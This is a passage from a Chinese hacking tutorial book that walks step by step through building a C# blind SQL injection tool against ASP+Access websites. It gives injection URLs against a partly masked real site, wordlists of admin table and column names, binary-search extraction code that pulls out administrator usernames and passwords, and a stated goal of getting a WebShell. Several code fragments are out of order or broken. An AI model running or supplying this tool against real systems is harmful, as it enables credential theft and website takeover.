    GC.Collect(); // 自动回收释放资源
}

private void check_database()
{
}

private void button_check_Click(object sender, EventArgs e)
{
    DelegateCheckDatabase delStartCheckDatabase = new DelegateCheckDatabase(check_database);
    // check_database()不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndCheckDatabase);
    // EndCheckDatabase()异步调用返回后自动执行的代码
    delStartCheckDatabase.BeginInvoke(callBackWhenDone, null);
}
```

（完整代码参见光盘实例5源程序）

最后按“Ctrl+F5”编译运行，在注入点处输入需要检测的 URL，注入类型下拉列表中选择注入点的类型，在关键字处输入“关键字”，单击“开始检测”按钮，我们尝试检测存在注入漏洞的数据库，这时即使出现网络很慢的现象，程序也不会假死，最终运行效果如图20所示。


### 5 综合检测工具

上面我们基本实现了注入工具的检测代码，但是这些仅仅是基本的功能，还不能称之为“工具”，下面就是要把这些东西整合起来，实现一个真正可用的检测注入漏洞的工具。

我们点击开始检测时，可以把程序的功能分成以下几个步骤：

- 第一步：判断用何种检测方式去检测，是利用“HTTP状态码”还是利用“关键字”去检测是否存在注入点。
- 第二步：判断我们有没有指定注入点的数据库类型，例如我们知道某个 URL 是存在注入漏洞的，而且知道是数字型的，仅仅关心后台数据库，这样就可以人为地指定注入类型，免去检测步骤。
- 第三步：如果我们指定了注入点的数据库类型，或者在第二步中人为指定了数据库类型，……


图21 综合检测工具编写流程


图22 综合检测工具运行结果1


图23 综合检测工具运行结果2

那我们就根据指定的数据库类型构造合适的 URL 来猜解数据库类型，如果没有人为指定数据库类型，那我们就去判断注入点是什么类型的，如图21所示。

我们把实例1和实例3的代码整合，实现利用 HTTP 状态码和网页内容长度进行综合检测的功能；把实例2和实例4的代码整合，实现利用关键字进行综合检测的功能，完整的代码请参见光盘中实例6的源程序。

我们验证一下程序的功能是否完整，最后结果如图22、图23及图24所示。


图24 综合检测工具运行结果3

## 第五章 编写 Access 注入工具

nohack.me

## 第五章 编写 Access 注入工具

### 1 Access 注入的基本流程

asp+access 架设的网站往往是我们初学者接触最多的网站构架，下面我们开始讨论 access 后台数据库的注入方法。access 注入攻击的基本流程：

- 第一步：发现存在 SQL 注入漏洞的 Web 页面。
- 第二步：判断后台数据库类型（access 数据库）。
- 第三步：构造 SQL 查询语句确定管理员表名。
- 第四步：构造 SQL 查询语句确定管理员表的字段名。
- 第五步：构造 SQL 查询语句猜解字段长度。
- 第六步：构造 SQL 查询语句猜解管理员用户密码。
- 第七步：登录网站后台得到 WebShell。

### 2 Access 注入功能分析

在上一章中，我们已经介绍了如何检测是否存在注入点以及如何去判断后台数据库类型，在下面的章节中我们不再重复讲解这些内容。

#### 2.1 猜解数据库表名

针对 access 数据库的注入漏洞，最主要的利用方式就是猜解数据库中的敏感信息，如管理员的用户密码等。想要猜解这些信息，首先要猜解数据库中存在哪些数据表。

- `count()`：返回记录条数
- `and (select count(*) from table_name)>0`

在注入点 URL 后添加 `and (select count(*) from table_name)>0` 这句代码，如果返回正常，说明当前猜解的数据表 `table_name` 是存在的，否则当前猜解的表名不存在。例：


```text
http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from admin)>0
http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from users)>0
```

`and (select count(*) from admin)>0` 返回错误信息，`and (select count(*) from users)>0` 返回正常信息，说明数据库中不存在 `admin` 数据表，数据库中存在 `users` 数据表，如图2、图3所示。


#### 2.2 猜解表中的列名

用到的语句是 `and (select count(column_name) from table_name)>0`。在注入点后添加这句代码，如果返回正常，说明 `table_name` 中存在 `column_name` 字段，否则不存在 `column_name` 字段。例如还是 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130`，我们已经确定存在一个“users”的用户表，提交：

```text
http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(username) from users)>0
http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(user) from users)>0
```

`and (select count(username) from users)>0` 返回正常信息，`and (select count(user) from users)>0` 返回错误信息，说明数据表 `users` 中存在 `username` 字段，不存在 `user` 字段，如图4及图5所示。


在我们猜解数据表名和列名的过程中，可能有人会说，这里有很多运气的成分，如果表名或者字段名起得复杂又没规律，那根本就无法继续进行了。说得很对，这世界根本就不存在 100% 成功的黑客技术，无论技术多高深的黑客，都是因为管理员大意或者程序员的代码写得不严密，才给我们提供了这些机会。当然我们平时可以多多收集常见的数据表名和字段名，不断壮大我们的“黑客字典”，这也是一笔宝贵的经验财富。

#### 2.3 猜解记录条数

在注入点后添加 `and (select count(*) from table_name)=n`，如果返回正常，说明 `table_name` 中存在 `n` 条记录数。

在注入点后添加 `and (select count(*) from table_name) between x and y`，如果返回正常，说明 `table_name` 中存在的记录数在 `x` 和 `y` 之间。不断变换 `x` 和 `y` 的区间范围，最后可以得到唯一确定值。例如 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130`，我们要猜解 `users` 用户表中有多少条数据，提交 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from users) between 1 and 5`，返回结果如图6所示，说明 `users` 用户表中的数据条数在 1 到 5 条之间。


图6 users 用户表中的数据条数在 1 到 5 条之间

不断缩小区间范围，提交 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from users) between 1 and 2`，返回结果如图7所示，说明 `users` 用户表中的数据条数在 1 到 2 条之间。


图7 users 用户表中的数据条数在 1 到 2 条之间

#### 2.4 折半查找法

在我们猜解数据条数的时候，如果按照顺序查找的方法从 1 开始逐步加 1 进行猜解，效率是很低的，大大降低了猜解速度。我们可以利用“折半查找”来提高猜解效率。折半查找是一种高效的查找方法，它可以明显减少比较次数，提高查找效率。

基本思路如下：

- 假如有一组小到大排序的 9 个数，A[1]–A[9]，其值分别为：1、3、5、7、9、11、13、15、17，想查 3 是否在此数列中。
- 先找出 9 个数中居中的数，即 A[5]。
- 将要找的数 3 与 A[5] 比较，A[5] 的值是 9，发现 A[5] > 3，显然 3 应当在 A[1] 到 A[5] 之间。
- 这样可以缩小查找范围，再找 A[1] 到 A[5] 范围内的居中的数，即 A[3]。
- 将要找的数 3 与 A[3] 比较，A[3] 的值为 5，发现 A[3] > 3，显然 3 应当在 A[1] 到 A[3] 范围内。
- 再将查找范围缩小一半，与 A[1] 到 A[3] 范围内的居中的数 A[2] 比较，发现要找的数 3 等于 A[2]，查找结束。

例如我们猜解 `users` 数据表中记录的条数，提交 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from users) between 0 and 20`，如果返回正常页面，说明数据表 `users` 中有 0 到 20 条记录；提交 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&id=1130 and (select count(*) from users) between 10 and 20`，如果返回正常页面，说明数据表 `users` 中有 10 到 20 条记录，否则说明数据表 `users` 中有 0 到 10 条记录，依次类推，这就是折半查找算法的精髓。

# 猜通Web黑客注入编程

我们给出经过简化修改以后的折半查找的核心代码：

```c
int iFirst = 0;
int iLast = 256;
int iRecodesCount = 0; // 定义记录条数变量
if (!判断条件)
{
    // 如果判断条件为假，表示猜解内容不在0-256范围内
    if (iLast == 256)
    {
        iRecodesCount = 256;
        break;
    }
    int iTmp = iLast;
    iLast = iLast + iLast - iFirst;
    iFirst = iTmp;
    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
}
else
{
    // 如果查询条件为真，iLast - iFirst == 1 就表示猜到了记录条数
    if (iLast - iFirst == 1)
    {
        // iLast 就是记录数
        iRecodesCount = iLast;
        break;
    }
    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
}
```

#### 2.5 猜解字段长度

`Len()` 函数返回字符串长度。

```sql
and (select top 1 len(column_name) from table_name)>1
and (select top 1 len(column_name) from table_name)>6
```

猜解 `table_name` 数据表中第一条记录 `column_name` 字段内容的长度。如果一直猜到 `>6` 都返回正常页面，猜到 `>7` 的时候返回错误（大于6并且小于等于7），那么该列第一条的长度为7。`top 1` 的意思是查询最前面的 1 条记录。

如果我们要检测第二条、第三条、第 N 条的记录 `column_name` 字段内容的长度，可用语句：

```sql
and (select Top 1 len(column_name) From (select Top N * From table_name where 1=1 order by 1) T Order by 1 desc) between iFirst and iLast
```

这样不断地变换 N 的值，再结合折半查找，就可以猜解所有记录中 `column_name` 字段内容的长度。

例如我们提交 `http://www.xxxxx.cn/newsdetails.asp?jdfwkey=hprrv&qid=1130`。

and (select top 1 len(username) from users)>1，这句话的意思就是猜解 users 用户表中第一条记录的 username 字段的内容长度；返回结果如图 8 所示。


图 8 users 用户表中第一条记录 username 字段的内容长度大于 1 个字符

说明 users 用户表中第一条记录 username 字段的内容长度大于 1 个字符；以此类推，直到提交  
http://www.xxxxx.cn/newsdetails.asp?jdflwkey=hprrv&id=1130 and (select top 1 len(username) from users)=4，说明 users 用户表中第一条记录的 username 字段内容长度等于 4 个字符。在实际的猜解过程中，我们可以采用折半查找来提高猜解速度。

#### 2.6 猜解字段内容

- 用到的语句：
- asc() 函数，返回字母的 ASCII 值，asc("A") 返回 65。
- mid() 函数，取得子字符串，mid("123",1,2) 返回 12。

```csharp
and (select top 1 asc(mid(column_name,N,1)) from (select top 1 * from table_name where 1=1 order by 1) T order by 1 desc) between iFirst and iLast
```

这句话的意思就是猜解第一条记录（select top 1）column_name 字段第 N 位字符的 ASCII 码值。变换 N 的值，再结合折半查找就可以猜解第一条 column_name 字段记录所有位的字符 ASCII 码值。

```csharp
and (select top 1 asc(mid(column_name,N,1)) from (select top M * from table_name where 1=1 order by 1) T order by 1 desc) between iFirst and iLast
```

这句话的意思就是猜解第 M 条记录（select top M）column_name 字段第 N 位字符的 ASCII 码值。变换 M 的值，再结合折半查找就可以猜解第 M 条 column_name 字段记录所有位的字符 ASCII 码值。

例如我们提交  
http://www.xxxxx.cn/newsdetails.asp?jdflwkey=hprrv&id=1130 and (select top 1 asc(mid(username,4,1)) from (select top 1 * from users where 1=1 order by 1) T order by 1 desc) between 0 and 130，猜解 users 用户表中第一条记录的 username 字段第 4 位字符的 ASCII 码值，返回正常，说明 ASCII 码值在 0 到 130 之间，如图 9 所示。


图 9 第一条记录的 username 字段第 4 位字符的 ASCII 码值在 0 到 130 之间

利用“折半”查找继续提交：

`http://www.xxxxx.cn/newsdetails.asp?jdflwkey=hprrv&id=1130 and (select top 1 asc(mid(username,4,1)) from (select top 1 * from users where 1=1 order by 1) T order by 1 desc) between 0 and 65`，返回错误，如图 10 所示。


说明 ASCII 码值不在 0 到 65 之间，而在 66 到 130 之间。利用折半查找继续提交：

`http://www.xxxxx.cn/newsdetails.asp?jdflwkey=hprrv&id=1130 and (select top 1 asc(mid(username,4,1)) from (select top 1 * from users where 1=1 order by 1) T order by 1 desc) between 65 and 98`，返回错误，如图 11 所示。


说明 ASCII 码值不在 65 到 98 之间，而在 99 到 130 之间。以此类推，直到最后提交：

`http://www.xxxxx.cn/newsdetails.asp?jdflwkey=hprrv&id=1130 and (select top 1 asc(mid(username,4,1)) from (select top 1 * from users where 1=1 order by 1) T order by 1 desc) between 106 and 107`，返回正常，如图 12 所示。


至此，我们可以确定 users 用户表中第一条记录的 username 字段第 4 位字符的 ASCII 码值为 107，对应的字符为“k”。

## 3 access 注入工具代码实现

#### 3.1 猜解数据库表名

为了我们更好地实现程序功能，把重点放在代码实现上，这里我已经设计好了程序的主界面，我们只需在相应的地方添加功能代码即可。实例 1 是我已经设计好的程序，大家……


图 13 控件布局

只需添加相应的代码实现相应功能即可。最终界面如图 13 所示。

猜数据库的表名，我们前面介绍了猜表名的语句为在注入点 URL 后添加 `and (select count(*) from table_name)>0`，如果返回正常，说明当前猜解的数据表 `table_name` 是存在的，否则当前猜解的表名不存在。

在程序设计的时候，我们只要构造访问 `http://www.xxxx.com/test.asp?id=345 and (select count(*) from table_name)>0` 的 HTTP 数据包，变换 `table_name` 数据表的名字，根据返回页面的结果判断 `table_name` 数据表是否存在。

常见的数据表有 admin、a_admin、x_admin、m_admin、adminuser、admin_user、article_admin、administrator、manage、manager、member、memberlist、user、users、Manage_User、user_info、admin_userinfo、userlist、user_list、login、用户、news、password、userinfo 等。

我们可以把这些常见的数据表保存到一个文本文档中，在猜解数据表的时候，打开这个文本文档，每次从文件中取出一个数据表名，构造 URL 进行猜解，直到遍历文本文档中所有的数据表名。

逐行读取文件内容的代码如下：

```csharp
/* 我们把所有常见的数据表名保存在 tables.txt 文件中，每个表名占一行 */
StreamReader srReader = new StreamReader("tables.txt"); // 打开
string table_name;
while ((table_name = srReader.ReadLine()) != null) // 逐行读取 tables.txt 里面的表名并赋予变量 table_name
{
    // ......根据当前 table_name 变量里数据表名，构造 url 进行猜解
}

/* 首先我们定义一个函数 get_Table()，把我们要猜解数据表的功能代码放在这个函数里面，
   当我们单击“猜解表名”按钮后异步调用 get_Table()，避免程序的主界面出现假死现象。 */
private void get_Table()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_KeyWord = comboBox_keyWord.Text.Trim();
    if (m_KeyWord == "") // 利用 http 状态码和内容长度检测
    {
        StreamReader srReader = new StreamReader("tables.txt");
        string table_name;
        getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);

        while ((table_name = srReader.ReadLine()) != null) // 逐行读取 tables.txt 里面的表名
        {
            switch (comboBox_type.Text.Trim()) // 根据不同注入类型构造不同的利用语句
            {
                case "数字型":
                    // ...
                    break;
            }
        }
    }
}
```

```csharp
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from " + table_name + ")>0", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from " + table_name + ")<=0", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    listView_getTables.Items.Add(table_name);
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 猜解到数据表：" + table_name + "\t\n";
}
break;
case "字符型":
    // ......字符型注入点检测代码
    break;
case "搜索型":
    // ......搜索型注入点检测代码
    break;
}
}
richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 所有表名猜解完毕 " + "\t\n";
}
else
{
    // 利用关键字进行检测
}
}
```

函数 get_Table() 的详细代码参见光盘实例 2 的源程序。剩下的一个问题就是我们去异步调用 get_Table() 函数猜解出用户表。双击“猜解表名”，修改代码如下：

```csharp
public delegate void DelegateToGetTable();
private void toolStripButton_getTables_Click(object sender, EventArgs e)
{
    listView_getTables.Items.Clear(); // 清空 listView_getTables 中的内容
    DelegateToGetTable delStartGetTable = new DelegateToGetTable(get_Table); // get_Table() 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetTable); // EndGetTable() 异步调用返回后启动执行的代码
    delStartGetTable.BeginInvoke(callBackWhenDone, null);
}

private void EndGetTable(IAsyncResult arResult)
{
    GC.Collect();
}

// 完整代码可以详见实例 2 的完整程序代码
```

最后按 Ctrl+F5 编译运行，把 tables.txt 文件拷贝到光盘中的实例 2\bin\Debug 目录里面。在注入点处输入需要检测的 URL，在关键字输入需要判断的关键字，单击开始检测。

按钮检测出存在数字型注入漏洞，数据库为 access 数据库，接着单击猜解表名，可以看到程序已经猜到了两个数据表 users、news，运行效果如图 14 所示。


图 14 成功猜解表名

#### 3.2 猜解列名

在完成猜解表名的代码后，我们就可以猜解列名了。猜列名的语句为在注入点 URL 后添加 `and (select count(column_name) from table_name)>0`，如果返回正常，说明当前数据表 table_name 中存在 column_name 列，否则不存在。在程序设计的时候跟猜解表名的过程是一样的，构造访问 `http://www.xxxx.com/test.asp?id=345 and (select count(column_name) from table_name)>0` 的 HTTP 数据包，变换 column_name 的名字，根据返回页面的结果判断 table_name 数据表中是否存在 column_name 列。

常见的列名有 username、adminusername、admin_username、adminname、admin_name、admin、adminuser、admin_user、usrname、usr_name、user_name、user_admin、password、admin_password、administrator、administrators、adminpassword、adminpwd、admin_pwd、adminpass、admin_pass、usrpass、usr_pass、user、name、pass、userpass、user_pass、userpassword、user_password、pwd、userpwd、user_pwd、useradmin、pword、p_word、passwd、pass_wd、yonghu、用户、用户名、密码、帐号、id、uid、userid、user_id、adminid、admin_id 等。

利用上面的方法，把这些常见的列名保存到一个文本文档中，在猜解的时候使用。

```csharp
/* 首先我们定义一个函数 get_Column()，把我们要猜解列名的功能代码放在这个函数里面，
   当我们单击“猜解列名”按钮后异步调用 get_Column()，避免程序的主界面出现假死的现象，get_Column() 代码如下 */
private void get_Column()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_KeyWord = comboBox_keyWord.Text.Trim();
    if (m_KeyWord == "") // 利用 http 状态码和内容长度检测
    {
        StreamReader srReader = new StreamReader("columns.txt");
        string column_name; // 定义变量用于保存每次检测的列名字串
        getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);

        while ((column_name = srReader.ReadLine()) != null) // 逐行读取 columns.txt 里面的列名将值赋予变量 column_name，根据当前 column_name 变量里列名，构造 url 进行猜解
        {
            switch (comboBox_type.Text.Trim()) // 根据不同注入类型构造不同的利用语句
            {
                case "数字型":
                    // column_name 是我们本次循环从 columns.txt 文件中读取的一个列名
                    // listView_getTables.FocusedItem.Text 的作用是取得我们在显示的数据库表中被选中项的值，如 "admin" "user" 等
            }
        }
    }
}
```

```csharp
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0", out StatusCode_11, out ContentLength_11);

getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")<=0", out StatusCode_12, out ContentLength_12);

if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12,
    normalContentLength, ContentLength_11, ContentLength_12))
{
    listView_getColumns.Items.Add(column_name);
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\t\n";
}
break;
case "字符型":
    // ……字符型注入点检测代码
    break;
case "搜索型":
    // ……搜索型注入点检测代码
    break;
}

richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 所有列名猜解完毕" + "\t\n";
}
else
{
    // ……利用关键字进行检测代码
}
```

函数 get_Column() 的详细代码参见光盘实例 3 的源程序。双击“猜解列名”，修改代码如下：

```csharp
public delegate void DelegateToGetColumn();
private void EndGetColumn(IAsyncResult arResult)
{
    GC.Collect();
}
private void toolStripButton_getColumns_Click(object sender, EventArgs e)
{
    listView_getColumns.Items.Clear(); // 清空 listView_getColumns 中的内容
    DelegateToGetColumn delStartGetColumn = new DelegateToGetColumn(get_Column); // get_Column() 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetColumn); // EndGetColumn() 异步调用返回后自动执行的代码
    delStartGetColumn.BeginInvoke(callBackWhenDone, null);
}
// 完整代码可以详见实例 3 的完整程序代码
```

最后按 `Ctrl+F5` 编译运行，把 `columns.txt` 文件拷贝到光盘中的实例 `3\bin\Debug` 目录里面。在注入点处输入需要检测的 URL，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 access。接着单击“猜解表名”，猜解到两个数据表 `user`、`admin`，然后勾选表名下面的数据表 `admin`，单击“猜解列名”，程序猜到了 `admin` 表中的字段 `admin_name`、`admin_pass`、`id`，运行效果如图 15 所示。


图 15  成功猜解列名

#### 3.3 猜解记录条数

猜记录条数的语句为在注入点 URL 后添加 `and (select count(*) from table_name)=n`，如果返回正常，说明当前数据表 `table_name` 中存在 n 条数据记录。在程序设计的时候我们可以构造访问 `http://www.xxxx.com/test.asp?id=345 and (select count(*) from table_name) between x and y` 的 HTTP 数据包，变换 x、y 的值，根据折半法进行猜解。

折半查找猜解记录条数的代码如下：

```c
if (!判断条件) // 通过 http 状态码或者关键字判断当前检测条件
{
    int iTmp = iLast;
    iLast = iLast + iLast - iFirst;
    iFirst = iTmp;
    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
}
else
{
    if (iLast - iFirst == 1) // 如果 iLast - iFirst == 1，那么 iLast 就是记录数
    {
        iRecodesCount = iLast;
        break;
    }
    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
}
```

#### 3.4 猜解记录内容

我们先明确一下猜解记录内容的步骤：

- 第一步：猜解出数据表中记录的条数，根据记录的条数构造一个循环，每次循环猜解一条记录的某些字段内容。
- 第二步：确定每条记录需要猜解的具体字段，根据这些字段构造循环，每次循环猜解一个字段中的内容。
- 第三步：确定一条记录每个字段的长度，根据长度构造循环，每次循环根据折半查找猜解一个字符的 ASCII 码值。

猜解记录内容的过程可以这样表示：

```text
{
获取记录条数
For(count) // 猜解所有记录
    获取某一条记录内容的长度
        For(length) // 猜解所有字符

        // 获取每一位字符
}
```

`/* 首先我们定义一个函数 get_Datas()，把我们要猜解数据的功能代码放在这个函数里面，当我们单击“猜解数据”按钮后异步调用 get_Datas()，避免程序的主界面出现假死的现象。get_Datas() 代码如下 */`

```csharp
private void get_Datas()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string my_injectType = comboBox_type.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();

    int iFirst = 0;
    int iLast = 256;
    int iRecodesCount = 0;
    if (m_keyWord == "") // 利用 http 状态码和内容长度检测
    {
        getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
        while (true)
        {
            string my_url_guessDatas = my_checkUrl;
            string my_url_guessDatas_not = my_checkUrl;
            switch (comboBox_type.Text.Trim()) // 根据注入类型构造合适的 url
            {
                case "数字型":
                    my_url_guessDatas = my_url_guessDatas + " and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") between " + iFirst + " and " + iLast + " and 1=1";
                    my_url_guessDatas_not = my_url_guessDatas_not + " and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") not between " + iFirst + " and " + iLast + " and 1=1";
                    break;

                case "字符型":
                    my_url_guessDatas = my_url_guessDatas + "' and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") between " + iFirst + " and " + iLast + " and '1'='1";
                    my_url_guessDatas_not = my_url_guessDatas_not + "' and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") not between " + iFirst + " and " + iLast + " and '1'='1";
                    break;

                case "搜索型":
                    my_url_guessDatas = my_url_guessDatas + "%25' and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") between " + iFirst + " and " + iLast + " and '%25'='";
                    my_url_guessDatas_not = my_url_guessDatas_not + "%25' and (select count(*) from "
                        + listView_getTables.FocusedItem.Text + ") not between " + iFirst + " and " + iLast + " and '%25'='";
                    break;
            }

            getHttpStatuscodeAndContentLength(my_url_guessDatas, out StatusCode_11, out ContentLength_11);
            getHttpStatuscodeAndContentLength(my_url_guessDatas_not, out StatusCode_12, out ContentLength_12);

            // 折半查找法猜解数据记录条数
            if (!checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
            {
                int iTmp = iLast;
                iLast = iLast + iLast - iFirst;
                iFirst = iTmp;
                iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
            }
            else
            {
                if (iLast - iFirst == 1) // 如果 iLast - iFirst == 1，那么 iLast 就是记录数
                {
                    iRecodesCount = iLast;
                    break;
                }
                iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
            }
        }

        richTextBox_InjecLog.Text = richTextBox_InjecLog.Text + " 存在 " + iRecodesCount + " 条记录" + "\t\n";

        // 根据记录的条数 iRecodesCount 构造一个循环，每次循环猜解一条记录的某些字段的内容
        for (int i = 1; i <= iRecodesCount; i++)
        {
            // 确定每条记录需要猜解的具体字段 listView_getColumns.CheckedItems 就是我们选取的要猜解字段数组，
            // 根据这些字段构造循环，每次循环猜解一个字段中的内容：
            foreach (ListViewItem itemColumn in listView_getColumns.CheckedItems)
            {
                int iFirstLen = 0;
                int iLastLen = 50;
                int icurrentLen = 0;
                while (true)
                {
                    string my_url_guessDatasColumn = my_checkUrl;
                    string my_url_guessDatasColumn_not = my_checkUrl;
                    switch (comboBox_type.Text.Trim()) // 根据注入类型构造合适的 url
                    {
                        case "数字型":
                            my_url_guessDatasColumn = my_url_guessDatasColumn + " and (Select Top 1 len(cstr([" + itemColumn.Text + "])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) between " + iFirstLen + " and " + iLastLen + " and 1=1";

                            my_url_guessDatasColumn_not = my_url_guessDatasColumn_not + " and (Select Top 1 len(cstr([" + itemColumn.Text + "])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) not between " + iFirstLen + " and " + iLastLen + " and 1=1";
                            break;

                        case "字符型":
                            my_url_guessDatasColumn = my_url_guessDatasColumn + "' and (Select Top 1 len(cstr(['" + itemColumn.Text + "'])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) between " + iFirstLen + " and " + iLastLen + " and '1'='1";

                            my_url_guessDatasColumn_not = my_url_guessDatasColumn_not + "' and (Select Top 1 len(cstr(['" + itemColumn.Text + "'])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) not between " + iFirstLen + " and " + iLastLen + " and '1'='1";
                            break;

                        case "搜索型":
                            my_url_guessDatasColumn = my_url_guessDatasColumn + "%25' and (Select Top 1 len(cstr(['" + itemColumn.Text + "'])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) between " + iFirstLen + " and " + iLastLen + " and '%25'='";

                            my_url_guessDatasColumn_not = my_url_guessDatasColumn_not + "%25' and (Select Top 1 len(cstr(['" + itemColumn.Text + "'])) From (Select Top 1 * From [" + listView_getTables.FocusedItem.Text + "] Where 1=1 Order by 1) T Order by 1 desc) not between " + iFirstLen + " and " + iLastLen + " and '%25'='";
                            break;
                    }

                    getHttpStatuscodeAndContentLength(my_url_guessDatasColumn, out StatusCode_11, out ContentLength_11);
                    getHttpStatuscodeAndContentLength(my_url_guessDatasColumn_not, out StatusCode_12, out ContentLength_12);

                    if (!checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
                    {
                        int iTmp = iLastLen;
                        iLastLen = iLastLen + iLastLen - iFirstLen;
                        iFirstLen = iTmp;
                        iLastLen = (iLastLen + iFirstLen) / 2 + (iLastLen + iFirstLen) % 2;
                    }
                    else
                    {
                        if (iLastLen - iFirstLen == 1) // icurrentLen 就是记录长度
                        {
                            icurrentLen = iLastLen;
                            break;
                        }
                        iLastLen = (iLastLen + iFirstLen) / 2 + (iLastLen + iFirstLen) % 2;
                    }
                }

                richTextBox_injectLog.Text = richTextBox_injectLog.Text + itemColumn.Text + "长度" + icurrentLen + ":";

                for (int dataCharNum = 1; dataCharNum <= icurrentLen; dataCharNum++)
                {
                    int iFirstContent = 0;
                    int iLastContent = 130;
                    int idatasContent = 0;

                    while (true)
                    {
                        string my_url_guessDatasContent = my_checkUrl;
                        string my_url_guessDatasContent_not = my_checkUrl;
                        switch (comboBox_type.Text.Trim())
                        {
                            case "数字型":
                                my_url_guessDatasContent = my_url_guessDatasContent + " ... between " + iFirstContent + " and " + iLastContent + " and 1='1";
                                my_url_guessDatasContent_not = my_url_guessDatasContent_not + " ... not between " + iFirstContent + " and " + iLastContent + " and 1='1";
                                break;

                            case "字符型":
                                my_url_guessDatasContent = my_url_guessDatasContent + "' ... between " + iFirstContent + "' and '" + iLastContent + "' and '1'='1";
                                my_url_guessDatasContent_not = my_url_guessDatasContent_not + "' ... not between " + iFirstContent + "' and '" + iLastContent + "' and '1'='1";
                                break;

                            case "搜索型":
                                my_url_guessDatasContent = my_url_guessDatasContent + "%25' ... between " + iFirstContent + "' and '" + iLastContent + "' and '%25'='";
                                my_url_guessDatasContent_not = my_url_guessDatasContent_not + "%25' ... not between " + iFirstContent + "' and '" + iLastContent + "' and '%25'='";
                                break;
                        }

                        getHttpStatuscodeAndContentLength(my_url_guessDatasContent, out StatusCode_11, out ContentLength_11);
                        getHttpStatuscodeAndContentLength(my_url_guessDatasContent_not, out StatusCode_12, out ContentLength_12);

                        if (!checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
                        {
                            int iTmp = iLastContent;
                            iLastContent = iLastContent + iLastContent - iFirstContent;
                            iFirstContent = iTmp;
                            iLastContent = (iLastContent + iFirstContent) / 2 + (iLastContent + iFirstContent) % 2;
                        }
                        else
                        {
                            if (iLastContent - iFirstContent == 1)
                            {
                                ...
                            }
                        }
                    }
                }
            }
        }
    }
}
```

```csharp
{
    idatasContent = iLastContent;
    break;
}
iLastContent = (iLastContent + iFirstContent) / 2 + (iLastContent + iFirstContent) % 2;
...
richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + ((char)idatasContent).ToString();
...
else
{
    // 关键字猜解
}
```

函数 `get_Datas()` 的详细代码参见光盘实例 4 的源程序。双击“猜解数据”，修改代码如下：

```csharp
public delegate void DelegateToGetData();
private void EndGetData(IAsyncResult arResult)
{
    GC.Collect();
}

private void toolStripButton_getDatas_Click(object sender, EventArgs e)
{
    listView_getDatas.Items.Clear(); // 清空 listView_getTables 中的内容
    DelegateToGetData delStartGetTable = new DelegateToGetData(get_Datas); // get_Datas() 不能带参数

    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetData); // EndGetData() 异步调用返回后自动执行的代码
